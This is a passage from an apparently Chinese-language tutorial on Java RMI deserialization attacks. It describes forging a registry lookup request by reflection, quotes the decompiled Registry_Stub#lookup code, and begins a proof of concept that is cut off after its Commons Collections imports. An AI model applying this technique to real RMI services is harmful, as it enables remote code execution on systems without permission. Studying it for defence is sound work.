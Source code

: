 但是也并不是不能利用，参考了一些文章给出了两种方案

- 伪造连接请求
- rasp hook请求代码，修改发送数据

大多数都是用的第一种，利用反射来修改一些参数，师傅们跟据原先的Registry_Stub#lookup的请求过程来伪造了应该lookup请求，然后将构造好的链子传入

Registry_Stub#lookup

```
public Remote lookup(String var1) throws AccessException, NotBoundException, RemoteException {
    try {
        RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);

        try {
            ObjectOutput var3 = var2.getOutputStream();
            var3.writeObject(var1);
        } catch (IOException var18) {
            throw new MarshalException("error marshalling arguments", var18);
        }

        super.ref.invoke(var2);

        Remote var23;
        try {
            ObjectInput var6 = var2.getInputStream();
            var23 = (Remote)var6.readObject();
        } catch (IOException var15) {
            throw new UnmarshalException("error unmarshalling return", var15);
        } catch (ClassNotFoundException var16) {
            throw new UnmarshalException("error unmarshalling return", var16);
        } finally {
            super.ref.done(var2);
        }

        return var23;
    } catch (RuntimeException var19) {
        throw var19;
    } catch (RemoteException var20) {
        throw var20;
    } catch (NotBoundException var21) {
        throw var21;
    } catch (Exception var22) {
        throw new UnexpectedException("undeclared checked exception", var22);
    }
}
```

POC

```
package RMIunser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
```
